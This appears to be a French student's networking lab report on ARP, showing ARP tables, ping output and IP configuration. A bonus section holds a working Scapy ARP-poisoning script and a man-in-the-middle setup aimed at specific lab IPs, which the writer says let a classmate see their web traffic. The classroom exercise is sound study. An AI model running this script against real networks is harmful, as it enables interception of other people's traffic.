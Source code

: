# TP3 : 32°13'34"N 95°03'27"W

☀️ Avant de continuer...
```
> ip a
link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
```
☀️ Affichez votre table ARP

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
_gateway (10.33.79.254) at 7c:5a:1c:d3:d8:76 [ether] on wlp3s0
```

☀️ Déterminez l'adresse MAC de la passerelle du réseau de l'école

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
```

☀️ Supprimez la ligne qui concerne la passerelle

```
> sudo arp -d 10.33.79.254
[sudo] password for effect: 
SIOCDARP(dontpub): Network is unreachable
```

☀️ Prouvez que vous avez supprimé la ligne dans la table ARP

```
> arp -a
(elle est vide)
```

☀️ Wireshark

*Fichier disponible sur mon git*

# II. ARP dans un réseau local

### 1. Basics

☀️ Déterminer

Adresse IP : `192.168.11.211/24`

Adresse MAC : `b8:1e:a4:6c:56:97`

☀️ DIY

nouvelle adresse IP : `192.168.6.0/24`

```
> ip a
2: wlp3s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.6.0/24 scope global wlp3s0
       valid_lft forever preferred_lft forever
    inet6 2a02:8440:6440:373b:99b8:5e2f:9265:4c53/64 scope global temporary dynamic 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 2a02:8440:6440:373b:a671:31ee:6e09:f879/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 fe80::aead:b484:22e8:76d1/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

☀️ Pingz !

```
> ping 192.168.11.7
PING 192.168.11.7 (192.168.11.7) 56(84) bytes of data.
64 bytes from 192.168.11.7: icmp_seq=1 ttl=128 time=172 ms
64 bytes from 192.168.11.7: icmp_seq=2 ttl=128 time=5.49 ms
64 bytes from 192.168.11.7: icmp_seq=3 ttl=128 time=10.1 ms
64 bytes from 192.168.11.7: icmp_seq=4 ttl=128 time=11.4 ms
```

```
> ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=106 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=150 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=69.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=91.7 ms
```

### 2. ARP

☀️ Affichez votre table ARP !

```
> arp -a
? (192.168.11.7) at 34:c9:3d:22:97:2d [ether] on wlp3s0
? (192.168.11.30) at 14:5a:fc:7f:13:93 [ether] on wlp3s0
? (192.168.11.32) at 34:c9:3d:22:97:2d [ether] on wlp3s0
_gateway (192.168.11.46) at 96:24:c9:47:ee:dc [ether] on wlp3s0
? (192.168.11.47) at 58:cd:c9:60:e5:fb [ether] on wlp3s0
```

```
> arp -a
(toute vide)
```

☀️ Capture arp2.pcap

*Fichier dispo sur mon git*

### 3. Bonus : ARP poisoning

(Je suis la victime)

⭐ Empoisonner la table ARP de l'un des membres de votre réseau

Avec le script ci dessous l'attaquant à empoisonner les informations de ma table ARP. L'IP
qui est censé être celle du routeur est donc la sienne :

```
> ip n s
172.20.10.4 dev wlp3s0 lladdr 90:e8:68:15:ac:43 STALE 
172.20.10.1 dev wlp3s0 lladdr 90:e8:68:15:ac:43 REACHABLE 
fe80::60d0:39ff:fef1:3f64 dev wlp3s0 lladdr 62:d0:39:f1:3f:64 router STALE 
2a0d:e487:132f:e506:f40d:223a:e036:824e dev wlp3s0 lladdr 62:d0:39:f1:3f:64 router STALE 
```

```py
from scapy.all import ARP, Ether, sendp, conf, getmacbyip

def arp_poison(victim_ip, victim_mac, router_ip):
    # Get your own MAC address (attacker's MAC)
    attacker_mac = "b8:1e:a4:6c:56:97"
    
    # Create an Ethernet frame with the destination MAC as the victim's MAC
    ethernet = Ether(dst=victim_mac)
    
    # Create an ARP response saying that your MAC address (attacker_mac) is the router (router_ip)
    arp_response = ARP(pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac, op='is-at')
    
    # Combine the Ethernet frame and the ARP response
    packet = ethernet / arp_response

    # Send the ARP response packet in a loop to keep poisoning the victim's ARP cache
    while True:
        sendp(packet, verbose=0)
```

⭐ Mettre en place un MITM

```py
target_ip = "192.168.11.7"  # IP of the victim
target_mac = "34-C9-3D-22-97-2D"  # MAC of the victim
spoof_ip = "192.168.11.46"  # IP you want to spoof (usually the gateway)

target_ip2 = "192.168.11.46"  # IP of the victim
target_mac2 = "96-24-c9-47-ee-dc"  # MAC of the victim
spoof_ip2 = "192.168.11.46"  # IP you want to spoof (usually the gateway)

arp_poison(target_ip, target_mac, spoof_ip)
arp_poison(target_ip2, target_mac2, spoof_ip2)
```

Il a pu dans ce cas là récupérer et voir mes requêtes vers les différents site web que je consultais.
